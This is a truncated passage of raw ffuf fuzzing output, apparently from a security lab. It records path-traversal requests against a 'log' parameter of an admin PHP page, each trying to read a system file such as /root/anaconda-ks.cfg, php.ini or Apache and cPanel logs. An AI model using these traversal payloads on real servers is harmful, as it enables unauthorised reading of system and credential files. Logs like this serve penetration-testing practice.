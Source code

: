 charset=UTF-8","redirectlocation":"","scraper":{},"duration":44556792,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//root/anaconda-ks.cfg","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf572","FUZZ":"/usr/lib/php.ini"},"position":114,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44720843,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/lib/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf571","FUZZ":"/usr/etc/pure-ftpd.conf"},"position":113,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44833173,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/etc/pure-ftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf574","FUZZ":"/usr/local/apache/conf/modsec.conf"},"position":116,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44886763,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/conf/modsec.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf573","FUZZ":"/usr/lib/php/php.ini"},"position":115,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45091945,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/lib/php/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf575","FUZZ":"/usr/local/apache/conf/php.ini"},"position":117,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45984199,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/conf/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf577","FUZZ":"/usr/local/apache/logs"},"position":119,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45423027,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/logs","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf576","FUZZ":"/usr/local/apache/log"},"position":118,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45887839,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf579","FUZZ":"/usr/local/apache/logs/access.log"},"position":121,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45378906,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/logs/access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf57a","FUZZ":"/usr/local/apache/audit_log"},"position":122,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45481097,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/audit_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf578","FUZZ":"/usr/local/apache/logs/access_log"},"position":120,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45881609,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/logs/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf57b","FUZZ":"/usr/local/apache/error_log"},"position":123,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43129875,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf57c","FUZZ":"/usr/local/apache/error.log"},"position":124,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43557066,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/apache/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf57d","FUZZ":"/usr/local/cpanel/logs"},"position":125,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43707168,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/cpanel/logs","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf57f","FUZZ":"/usr/local/cpanel/logs/error_log"},"position":127,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43412116,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/cpanel/logs/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf57e","FUZZ":"/usr/local/cpanel/logs/access_log"},"position":126,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;